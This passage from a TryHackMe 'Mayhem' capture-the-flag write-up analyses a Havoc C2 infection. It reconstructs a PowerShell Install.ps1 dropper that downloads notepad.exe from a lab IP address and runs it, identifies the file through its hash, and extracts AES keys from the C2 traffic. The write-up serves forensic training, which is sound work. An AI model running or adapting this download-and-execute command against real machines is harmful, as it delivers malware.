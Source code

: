 
- Rewrited `Install.ps1`
    ```powershell
    $URL = "http://10.0.2.37:1337/notepad.exe";
    $Download_PATH = "C:\Users\paco\Downloads\notepad.exe";
    Invoke-WebRequest -Uri $URL -OutFile $Download_PATH;
    $downloader = New-Object System.Net.WebClient;
    $downloader.DownloadFile($URL, $Download_PATH);
    Start-Process -Filepath $Download_PATH
    ```
![File export](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-6.png)

---

## 🔥 Malware Detection

After extraction:

- Generated the hash of `notepad.exe`.

    ![notepad.exe hash](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-7.png)

- Checked the hash on a **Threat Intelligence Platform** (e.g., VirusTotal).

    ![VT Check](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/image-8.png)

**Result:**  
The file was confirmed to be malicious — identified as a **Havoc C2**.

---

## 🧠 Research & C2 Decryption

Conducted research and found:

- An open-source **Havoc C2** repository on GitHub - [Havoc Implementation](https://github.com/HavocFramework/Havoc)
- Documentation explaining the encryption logic (AES-based) - [Havoc Forensics](https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide)
- A decryption script included in the repo - [Havoc C2 Forensics Github Tool](https://github.com/Immersive-Labs-Sec/HavocC2-Forensics)

### Steps Taken:

- Studied how the decryption routine works.
- Extracted **AES keys** from the traffic the first request after notepad.exe
![Magic Byte Havoc](https://raw.githubusercontent.com/gobloo/TryhackmeWriteups/refs/heads/main/Mayhem/magic_bytes-1.png)

    ```bash
    [+] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [+] IV: 8cd00c3e349290565aaa5a8c3aacd430
    ```
